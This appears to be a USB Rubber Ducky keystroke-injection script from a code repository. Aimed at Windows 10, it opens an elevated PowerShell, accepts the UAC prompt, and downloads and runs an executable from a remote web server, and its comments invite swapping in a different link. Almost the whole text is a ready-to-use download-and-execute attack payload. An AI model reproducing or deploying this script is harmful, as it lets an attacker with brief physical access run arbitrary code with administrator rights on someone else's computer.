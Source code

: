 REM A ducky script that uses the powershell to download and execute a file from a webserver, then close all powershell windows (with another powershell). Intended for use with windows 10 target, but probably works with Windows 7 and 8.
REM 
REM Change the link and what name to save the file as.
REM 
REM Execution time: 5-8 seconds (delays will need to be modified based on target machine speed)
REM 
REM Preview video: https://www.youtube.com/watch?v=gGHjdtamQ9A
REM 
```
REM Windows 10: Poweshell administrator download and execute file
REM Author: Judge2020
REM author website: Judge2020.com
REM
REM start of script
REM
REM let the HID enumerate
DELAY 1000
GUI r
DELAY 200
REM my best attempt at a elevated powershell instance
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1000
ALT y
DELAY 200
STRING $down = New-Object System.Net.WebClient; $url = 'http://www.greyhathacker.net/tools/messbox.exe'; $file = 'mess1.exe'; $down.DownloadFile($url,$file); $exec = New-Object -com shell.application; $exec.shellexecute($file); exit;
```
